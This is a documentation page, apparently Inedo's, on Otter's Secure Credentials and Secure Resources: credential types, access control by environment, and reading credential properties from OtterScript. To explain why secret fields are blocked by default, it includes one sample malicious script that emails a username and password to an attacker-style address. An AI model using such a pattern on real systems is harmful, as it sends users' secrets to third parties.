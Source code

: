 ```yaml
---
title: "Credentials & Resources"
order: 3
---
```


Otter has two related features that help you share resources across scripts:

* **Secure Credentials** store accounts, logins, and access keys that contain secrets (i.e. encrypted fields that are visible only to privileged users)
* **Secure Resources**  provide access to a particular resource (such as a Git repository), and may be associated with a Secure Credential

### Secure Credential & Secure Resource Types
There are a few types of credentials that are built-in to Otter:

* **Private Key** is primarily used by the SSH-based agent when key-based authentication is needed.
* **Username & Password** contains a username (visible) and password (secret), and is used to represent a general-purpose account, such as a Windows domain account.
* **API Key/Token** contains just a token property (which is secret), and is used by a variety of resources

There are also a few built-in resource types:

* **Inedo BuildMaster**; Connect to an instance of BuildMaster.
* **Inedo Otter**; Connect to an instance of Otter.
* **Inedo ProGet**; Connect to an instance of ProGet.
* **NuGet Package Feed**; Interact with packages on a NuGet feed.
* **Universal Package Feed**; Interact with packages on a ProGet-hosted universal feed.

However, because these are implemented as [extensions](/docs/buildmaster/reference/extensions), many integrations like [Azure DevOps](/docs/buildmaster/builds-continuous-integration/buildmaster-git-source-control), [Jira](/docs/buildmaster/tools-service-integrations/buildmaster-integrations-jira), [Jenkins](/docs/buildmaster/tools-service-integrations/buildmaster-integrations-jenkins), etc. will add additional types.

## Creating & Editing Secure Credentials

You manage secure credentials under Administration > Secure Credentials. 

All secure credentials have the following properties:

*   **Name** - a name of up to 50 characters that will be used to reference the resource credential; while you can change the name later, any operation or component that relied on that name will no longer be able to find it
*   **Environment** - optional; restricts what environments the credential may be used in, and which users have access to it
*   **OtterScript Usage** - optional; you can allow the `$CredentialProperty` variable function to extract secure properties
*   **Environment Restriction** - optional; when set, a runtime error will occur when this credential is used in a deployment plan that is not running in the same environment

Depending on the type of secure credential, there will be other fields like Username or Password that you can edit.

Secret fields (like Password) will be displayed as an empty textbox, and entering a value in the textbox will change it. You can click the "Show Secret fields" button to show these values if you have the appropriate permissions.

## Using Credentials and Resources

Most Operations that work with resources and/or credentials will let you use a secure resource name and/or a secure credential name. 

For example, although the `AzureDevOps::Get-Source` operation has all the properties necessary to connect to a Azure DevOps repository (InstanceUrl, Usernname, Token, Project, etc.), you can simply specify a configured secure resource name instead.

````
AzureDevOps::Get-Source
(
    From: MyAzureDevOpsResource
);
````

At runtime, the operation will search for a secure resource named `MyAzureDevOpsResource`. If that secure resource has a secure credential name configured, then the associated secure credential will also be used. 

Note that, if the credential has "restricted to environment use" configured, then this will only be permitted if the deployment plan is running in the same environment. This can be frustrating and unintuitive to your users, so be careful when using it.

## Limiting Secure Credential Access

You may want to permit or restrict certain users from accessing certain secure credentials, such as allowing Developers to manage credentials in the Integration and Testing environments. This is done by associating credentials with an environment, and then creating the appropriate [access controls](/docs/buildmaster/configuring-for-your-team/buildmaster-administration-security) scoped to that environment.

There are two task attributes you can use to control this access:

*   **Manage Credentials** will allow you to view, delete, and edit credentials, but not view existing encrypted/sensitive fields
*   **View Passwords** will allow you to view encrypted/sensitive fields on a credential

On the manage credentials page, users will only see the credentials they have permission to manage, and will only be able to create credentials in permitted environments.

## Accessing Properties from OtterScript

Most Operations will simply input the name of a Secure Resource or Secure Credential, and use the properties you've configured. However, there may be times when you need to access the configured properties, such as such as if you want to pass a username or password to a script or command-line utility.

To access the properties of a configured Secure Credential or Secure Property from within OtterScript, you can use the [$SecureCredentialProperty](/docs/buildmaster/reference/functions/credentials/securecredentialproperty) and [$SecureResourceProperty](/docs/buildmaster/reference/functions/credentials/secureresourceproperty) functions.

````
set $host = $CredentialProperty(InternalProGet, ServerUrl);

exec sometool.exe --host $host;
````

By default, accessing secret properties of a secure credential will raise an error. This is to prevent malicious OtterScript like this:

````
# NOTE - this won't actually work unless you explciitly allow it
Send-Email
(
    To: hacker45@agam.ru,
    Subject: Username is $HdarsUser and password is $HdarsPassword
);
````

If you absolutely need to access secret field on a Secure Credential (such as a Password or API Token), you'll need to enable variable usage on that credential. Here is a case where you may need to do that:

````
set $HDarsUser = $SecureCredentialProperty(UsernamePassword::HDarsUser, UserName);
set $HDarsPassword = $SecureCredentialProperty(UsernamePassword::HDarsUser, Password);
exec hdars-tool.exe --user $HdarsUser -- pass $HdarsPassword;
````

If you have important credentials, you should strongly consider writing a custom operation that can securely handle the credentials.


## Legacy Resource Credentials (Otter v1 & v22)
Prior to Otter 3.0, a single feature called "Resource Credentials" was used instead of Secure Credentials and Secure Resources. These will appear with a warning icon on the secure credentials page.

While Resource Credentials are considered a "Legacy Feature", you can still create and edit them as needed. In some cases, such as custom/community extensions, they may be the only option, until the extension is adapted to use the new features.

Many operations that utilize a Secure Resource will attempt to search for a Resource Credential if the specified Secure Resource was not found. This enables upgrades without breaking previous OtterScripts plans and modules. 

### Converting to Secure Credentials & Resources
You can "convert" a Resource Credential into a Secure Credentials and/or Secure Resources from the manage secure credentials page. This is a one-way conversion, so make sure to save important information (like the password) if you need to recreate it.

For example, a "GitHub Resource Credential" would convert to a "GitHub Account" (Secure Credential) and a "GitHub Project" (Secure Resource), unless the Username was empty; in that case, it will only be converted to a Secure Resource.
